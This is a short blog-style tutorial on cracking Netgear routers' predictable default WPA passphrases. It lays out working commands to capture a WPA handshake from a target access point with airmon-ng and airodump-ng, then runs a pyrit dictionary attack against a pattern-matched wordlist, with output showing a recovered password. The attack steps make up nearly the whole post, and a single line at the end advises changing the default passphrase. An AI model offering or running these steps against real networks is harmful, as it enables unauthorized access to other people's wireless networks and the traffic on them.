 Netgear Wireless Router Default Passphrase Vulnerability

**OS:** Debian 8

A vulnerability exists in the default passphrase for Netgear Wireless Routers. The default passphrase consists of two words, followed by a three digit number (<http://support1.gearguy.com/useruploads/images/19915v3.PNG>):<br>
**word1word2xxx**

To exploit this vulnerability you will need “aircrack-ng”, “pyrit” and the wordlist containing all possible passphrases. Initially, i was going to generate the dictionary using /usr/share/dict/cracklib-small and “crunch”, but the Netgear dictionary is already available for download from ScriptKitty (<http://www.scriptkitty.ca/index.php/wordlists/>).
##Installation of Required Software
Manual step-by-step instructions @ blackMORE Ops (<http://www.blackmoreops.com/2014/03/13/install-nvidia-driver-kernel-module-cuda-and-pyrit-kali-linux/>)
<code>
<div class="code">
user@debian8:~$ <com>sudo apt-get install aircrack-ng</com><br>
user@debian8:~$ <com>sudo apt-get install pyrit</com>
</div>
</code>
##Step 1 – Capturing the Handshake
Plug in your Alfa AWUS036H and capture the 4-way handshake.<br>
Tutorial @ SecurityTube - <http://www.securitytube.net/groups?operation=view&groupId=9>
<code>
<div class="code">
user@debian8:~$ <com>airmon-ng start wlan0</com><br>
user@debian8:~$ <com>airodump-ng mon0</com><br>
user@debian8:~$ <com>airodump-ng -c 1 -w netgear.cap --bssid 00:11:22:33:44:55 mon0</com><br>
</div>
</code>
##Step 2 – Cracking the Capture
Confirm you have useable handshakes, then clean up the capture file and crack the passphrase.<br>
<code>
<div class="code">
user@debian8:~$ <com>pyrit -r netgear.cap analyze</com><br>
user@debian8:~$ <com>pyrit -r netgear.cap -o stripped-netgear.cap strip</com><br>
user@debian8:~$ <com>pyrit -r stripped-netgear.cap -i adjective_noun_3d.txt -b 00:11:22:33:44:55 attack_passthrough</com><br>
...<br>
Parsing file 'stripped-netgear.cap' (1/1)...<br>
Parsed 10 packets (10 802.11-packets), got 1 AP(s)<br>
Tried 12235614 PMKs so far; 25683 PMKs per second.<br>
The password is <com>'magicalsquash835'</com><br>
</div>
</code>
##Solution
Never use the default passphrase provided with your router and always use complex passwords that do not follow predictable patterns.

Tags: wifi
